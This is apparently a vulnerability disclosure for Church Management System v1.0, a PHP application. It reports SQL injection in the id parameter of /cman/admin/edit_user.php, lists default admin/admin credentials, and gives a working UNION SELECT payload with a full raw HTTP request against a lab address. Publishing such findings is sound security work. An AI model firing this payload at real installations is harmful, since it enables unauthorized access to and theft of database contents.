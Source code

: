 # Church Management System v1.0 by Godfrey De Blessed has SQL injection

BUG_Author: XuBoyu

Login account: admin/admin (Super Admin account)

vendors: https://www.sourcecodester.com/php/11206/church-management-system.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /cman/admin/edit_user.php?id=

Vulnerability location: /cman/admin/edit_user.php?id=, id

dbname = cman

[+] Payload: /cman/admin/edit_user.php?id=-1%27%20union%20select%201,database(),3,4,5,6--+ // Leak place ---> id

```sql
GET /cman/admin/edit_user.php?id=-1%27%20union%20select%201,database(),3,4,5,6--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=fjhrjdpuej6edqv5haoadpj3lc
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/183248896-f13d1077-c4ea-4ae8-b983-9c1d75a9f5d2.png)
